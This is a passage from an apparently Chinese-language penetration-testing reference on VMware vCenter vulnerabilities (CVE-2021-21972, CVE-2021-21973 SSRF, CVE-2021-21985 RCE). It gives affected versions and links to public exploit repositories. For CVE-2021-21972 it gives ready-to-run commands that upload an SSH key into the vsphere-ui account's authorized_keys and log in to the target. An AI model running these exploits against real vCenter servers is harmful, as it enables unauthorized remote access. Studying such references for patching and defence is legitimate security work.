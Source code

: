 **POC | Payload | exp**
- [NS-Sp4ce/CVE-2021-21972](https://github.com/NS-Sp4ce/CVE-2021-21972)
    ```bash
    git clone https://github.com/NS-Sp4ce/CVE-2021-21972.git
    cd CVE-2021-21972
    python3 cve-2021-21972.py -url
    ```
- [TaroballzChen/CVE-2021-21972](https://github.com/TaroballzChen/CVE-2021-21972)
- [horizon3ai/CVE-2021-21972](https://github.com/horizon3ai/CVE-2021-21972)
    ```bash
    git clone https://github.com/horizon3ai/CVE-2021-21972.git
    cd CVE-2021-21972

    # 写 ssh 公钥方法 (默认 vcenter 不开启远程 ssh)
    # /root/.ssh/id_rsa.pub 这个公钥需提前生成
    # 这个 192.168.8.250 是我vcenter测试机器的目标地址,记得改成自己的
    python3 CVE-2021-21972.py -t 192.168.8.250 -f /root/.ssh/id_rsa.pub -p /home/vsphere-ui/.ssh/authorized_keys -o unix
    ssh 192.168.8.250 -l vsphere-ui
    ```

---

### CVE-2021-21973 SSRF

**漏洞描述**

VMware vCenter Server 插件中对用户提供的输入验证不当，未经过身份验证的远程攻击者可以发送特制的 HTTP 请求，欺骗应用程序向任意系统发起请求。

**影响版本**
- vCenter Server: 6.5, 6.5 U1, 6.5 U3, 6.5.0, 6.5.0a, 6.5.0b, 6.5.0c, 6.5.0d, 6.5u2c, 6.7, 6.7 U3, 6.7.0, 6.7.0d, 6.7u3f, 7.0
- Cloud Foundation: before 3.10.1.2, 4.2

**POC | Payload | exp**
- https://twitter.com/osama_hroot/status/1365586206982082560

---

### CVE-2021-21985

**漏洞描述**

该漏洞存在于 vSphere Client（HTML5）中，由于 vCenter Server 中默认启用的 Virtual SAN Health Check 插件缺乏输入验证，拥有 443 端口网络访问权限的攻击者可以利用此漏洞在承载 vCenter Server 的操作系统上远程执行任意命令。

**影响版本**
- VMware vCenter Server 7.0系列 < 7.0.0U2b
- VMware vCenter Server 6.7系列 < 6.7.0U3n
- VMware vCenter Server 6.5系列 < 6.5.0U3p
- VMware Cloud Foundation 4.x 系列 < 4.2.1
- VMware Cloud Foundation 4.x 系列 < 3.10.2.1
